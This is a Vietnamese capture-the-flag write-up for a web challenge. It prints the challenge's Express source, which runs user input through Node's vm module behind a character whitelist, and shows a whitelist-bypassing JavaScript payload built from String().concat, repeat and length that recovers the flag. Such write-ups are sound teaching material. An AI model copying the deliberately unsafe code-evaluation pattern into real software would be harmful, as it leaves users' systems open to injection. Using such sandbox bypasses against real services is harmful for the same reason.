

# Welcome to FPTU Ethical Hackers Kingdom

Ở bài này cho ta một trang web như sau :)



Thử click vào đường link [FPTU Ethical Hackers Kingdom](https://www.facebook.com/ehc.fptu). Thì nó dẫn mình sang page facebook của EHC. Có vẻ là phải OSINT rồi, nhưng vừa lướt page EHC mình vừa nghĩ nếu manh mối trong page EHC thì sẽ có lợi cho thí sinh nào theo dõi hay quản lý page này. Vậy nên mình bỏ suy nghĩ OSINT (Thực ra một phần cũng vì mình không tốt ở mảng này).

Lúc này thì mình quay về trang web của đề bài thì mình thử F12 xem có giấu gì trong source không? Thì xuất hiện một comment 

```HTML
<!-- Hahaha, you guys are idiots! The key was move from FPTU Ethical Hackers Kingdom to /source by our king Antoine!-->
```

Dòng comment nói là `key đã chuyển từ EHC Kingdom sang /source`. Nên ngay lập tức mình nhảy sang route `/source` xem thử có gì. Và mình có được source file `app.js`

```JS
const express = require('express');
const path = require('path');
const virtual_machine = require('vm');

const app = express();

app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'pug');

app.use(express.static(path.join(__dirname, 'public')));

app.get('/', function (req, res, next) {
  let output = '';
  const secret = req.query.secret + '';
  if (secret && secret.length < 190 && !/[^A-Za-z).(]/.test(secret)) {
    try {
      const key = virtual_machine.runInNewContext(secret, {}, { timeout: 100 });
      if (key === 1073) {
        output = Buffer.from(process.env.FLAG).toString('base64');
      } else {
        output = 'https://i.imgur.com/OQFcXZD.jpg';
      }
    } catch (e) {
      output = Buffer.from('https://youtu.be/HRwVb2xrNDw').toString('base64');
    }
  } else {
    output = Buffer.from('https://youtu.be/HRwVb2xrNDw').toString('base64');
  }
  res.render('index', { title: 'Welcome to FPTU Ethical Hackers Kingdom <3', output });
});

app.get('/source', function (req, res) {
  res.sendFile(path.join(__dirname, 'app.js'));
});

module.exports = app;
```

Mình đọc một lúc và tập trung vào route `'/'` với param là `secret`. Điều kiện để output ra được flag là:

1. secret phải tồn tại, độ dài secret phải nhỏ hơn 190 và cuối cùng secret chỉ được chứa `"A-Za-z).("`
2. điều kiện còn lại là secret sẽ phải là code javascript sao cho khi run thì output sẽ trả về `1073`.

Sau một lúc ngồi mò các thể loại, thì mình nảy ra ý tưởng:
- Tạo ra string bằng String().concat() để không cần dùng ngoặc string. Tham số truyền vào concat sẽ là `undefined, null, Infinity, NaN`. Tương ứng với những string dài `9, 4, 8, 3`.
- Nhưng với chỉ những string không quá 9 kí tự thì khó mà stack dần lên một string có len dài 1073 được. Nên mình sử dụng repeat để tăng độ dài string một cách nhanh chóng.
- Và cuối cùng sau khi có 1 string độ dài 1073 thì mình lấy ra length là thành công.

Ta có `1073 = 9 * 9 * (9 + 4) + 9 + 8 + 3`, những chỗ có 9 ta thay bằng `String().concat(undefined)` tương tự các độ dài khác. Chỗ nào phép nhân ta dùng `repeat`. Và chỗ nào là phép cộng thì ta dùng `concat`.

Cuối cùng payload của mình là: 

```JS
String().concat(undefined).repeat(String().concat(undefined).length).repeat(String().concat(undefined).concat(null).length).concat(undefined).concat(Infinity).concat(NaN).length
```

Điền payload vào param secret mình nhận được output là base64 của flag. Chạy ngay:

```JS
atob('RlBUVUhhY2tpbmd7YmFuX3F1YV9odSxiYW5fZGFfYmlfQW50b2luZV9uaG90X3Zhb19qc19qYWlsfQ==')
```

Kết quả: `FPTUHacking{ban_qua_hu,ban_da_bi_Antoine_nhot_vao_js_jail}`
